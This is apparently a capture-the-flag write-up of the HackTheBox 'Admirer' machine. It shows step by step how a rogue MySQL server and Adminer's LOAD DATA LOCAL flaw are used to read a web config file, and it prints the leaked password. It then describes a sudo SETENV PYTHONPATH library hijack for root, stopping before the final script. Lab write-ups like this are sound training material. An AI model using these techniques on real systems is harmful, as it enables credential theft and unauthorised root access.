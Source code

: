 We find that http://10.10.10.187/utility-scripts/adminer.php exists!

We don't have any valid credentials for this portal, but we can use a vulnerability disclosed for this version at https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool 

We'll first need to start our database and connect to it locally:

```
sudo service mysql start
sudo su
mysql -uroot
```

We now need to create a user to connect back with and give it permissions:

```
CREATE USER 'remote'@10.10.10.187 IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'remote'@'10.10.10.187';
FLUSH PRIVILEGES;
```

Now, we need to connect to this server from the adminer.php portal, and go to SQL command. Once we're at the prompt, we can enter the following, to see if the password in index.php has been updated. Replace 'items' with a valid table in your database:

```
LOAD DATA local infile '/var/www/html/index.php'
into table items
fields terminated by '\n'
```

Hit execute, and then run the following, replacing items with your chosen table:

```
select * from items
```

We see:

```
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
```

Looks like it has changed! Trying this with the "waldo" user allows us to connect over SSH!

**waldo:&<h5b~yK3F#{PaPB&dA}{H>**

If we run sudo -l, we can see that waldo can run the following command:

```
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

Taking a look at that admin_tasks.sh file, we can see that option 6 calls backup.py. In backup.py, we see that make_archive is being imported from shutils. We can hijack this DLL to get root!

Additionally, the SETENV in the sudoers file allows us to pass a new PYTHONPATH environment variable to the sudo command, making this even easier. We'll add the following script to /var/tmp to add a new user to /etc/passwd (which we'll want to clean up quickly after, so as to not ruin anyone else's experience with the machine):

